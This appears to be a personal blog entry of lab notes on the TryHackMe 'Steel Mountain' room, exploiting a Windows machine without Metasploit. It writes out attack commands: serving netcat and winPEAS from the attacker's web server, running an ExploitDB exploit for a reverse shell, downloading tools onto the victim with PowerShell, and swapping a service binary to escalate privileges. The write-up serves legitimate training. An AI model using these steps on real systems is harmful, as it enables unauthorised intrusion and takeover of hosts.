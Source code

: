 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-11-08

# Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine's new IP address is 10.10.174.199.

## Access and Escalation Without Metasploit

The alternate exploit we're going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we're going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don't forget to punch a hole through the firewall for this!).

```bash
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates *a lot* of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set *before* creating the window that we're going to catch our reverse shell in!

```bash
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we're in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display *a lot* more information than PowerUp, so it might be useful to run *both*...

Useful PowerShell commands:

* `Get-Service` - list all services, or drill down on a particular service.
* `sc.exe stop $SERVICE`/`sc.exe start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday's compromise by:

```powershell
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc.exe stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	ASCService.exe.bak
copy /Y ASCService.exe
	"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc.exe start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```bash
nc -lvnp 4443
```

* [2021-11-07 - TryHackMe: Complete Beginner](2021-11-07-tryhackme-complete-beginner.md)
